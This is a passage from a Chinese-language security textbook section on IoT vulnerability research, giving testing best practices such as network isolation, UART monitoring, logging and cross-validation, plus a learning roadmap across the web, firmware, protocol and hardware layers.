2. **隔离测试**：将IoT设备放在独立的测试网络中，避免影响生产环境
3. **串口常开**：连接UART串口并保持minicom/screen会话，随时观察设备状态
4. **记录一切**：记录每个测试步骤的输入、输出和设备反应
5. **多工具交叉验证**：使用2-3个不同工具确认同一漏洞，减少误报
6. **关注更新**：订阅目标厂商的安全公告和CVE数据库更新

### 22.3.10 进阶：IoT漏洞挖掘工具链全景

将上述方法整合为一套完整的工具链：



掌握IoT漏洞挖掘需要硬件、固件、网络、Web、协议五个领域的知识交叉。初学者建议从Web层入手（门槛最低），逐步向固件分析和协议分析深入，最终挑战硬件层攻击。每个层面的深入学习都值得单独用一整本书来讲解，本节旨在建立完整的知识地图，为后续的深入研究指明方向。
